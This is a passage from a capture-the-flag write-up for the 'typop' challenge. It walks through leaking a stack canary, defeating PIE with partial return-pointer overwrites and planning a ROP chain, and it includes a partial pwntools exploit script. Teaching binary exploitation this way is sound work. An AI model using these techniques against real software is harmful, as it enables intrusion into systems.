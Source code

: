 ```
0x7ffda96ba90e: 0x7ffda96ba9200cf6      0x55978332a4470000
```
We can see that the canary is printed back to the console with the rest of the string, as well as a stack leak that isn't super relevant to our exploit.
```
[*] Switching to interactive mode

You said: aaaaaaaaaaa\xed\xac0h"\xf6 \xa9k\xa9\xfd
Aww :( Can you provide some extra feedback?
```
Now that we have a reliable canary leak, we can overwrite the return pointer! However, since PIE is enabled (this randomizes the base of code addresses by applying ASLR to that section of memory, just like the stack, heap, and libc sections get by default), we don't know the full address of any locations in the code section. However, a few things are working in our favor:

#1: Since getFeedback is called from main, the return address is from partway through the main function in the code section.

#2: The last three nibbles (hex digits) of addresses always stay the same even with ASLR/PIE. This means we could overwrite the lowest byte of our return pointer to point somewhere else (i.e. the start of the main function would work by editing that byte to 0x10) with 100% accuracy, we could overwrite the low two bytes of the return pointer to point somewhere else with 1/16 accuracy (only one nibble is unknown), which is very acceptable, and we could even overwrite the low three byte with 1/4096 odds, which can work out if scripted appropriately! Anything more is generally infeasible.

#3: My overflow on the answer to the second question is long enough that I could also use it to leak the return pointer (exactly the same technique as my canary leak) and use that to calculate the PIE base. As a result, I just need to run the main body of the program a second time in much the same way as a typical ret2libc attack. With some trial and error, I found that simply returning to the start of main would throw errors when printf was called, but I could bypass this by just going to the exact line of main where getFeedback is called (offset 0x42) (I think it has something to do with the setvbuf function call, but I'm not 100% sure how that works internally). This will allow me to leak PIE use things like the win function with prior use of gadgets to set parameters. Bear in mind here that our overflow is big enough to write a 0x40 bytes ROPchain, i.e. 8 8-byte addresses long.

Here's a python script that gets us up to the point of a PIE leak in that manner:

```
from pwn import *

target = process('./chall')

pid = gdb.attach(target, 'b *getFeedback+70\nb *getFeedback+172\nb *getFeedback+199\ncontinue')

elf = ELF('chall')
libc = ELF('libc-2.31.so')
#target = remote('typop.chal.idek.team', 1337)

print(target.recvuntil(b'complete a survey?'))

target.sendline(b'y')
print(target.recvuntil(b'ctf?'))
payload1 = b'a' * 11
target.send(payload1)

print(target.recvuntil(payload1))

leak = target.recv(7)
canary = u64(b'\x00' + leak)
print(hex(canary))

payload2 = cyclic(100)
padding = b'a' * 10
payload2 = padding
payload2 += p64(canary)
payload2 += b'a' * 8
```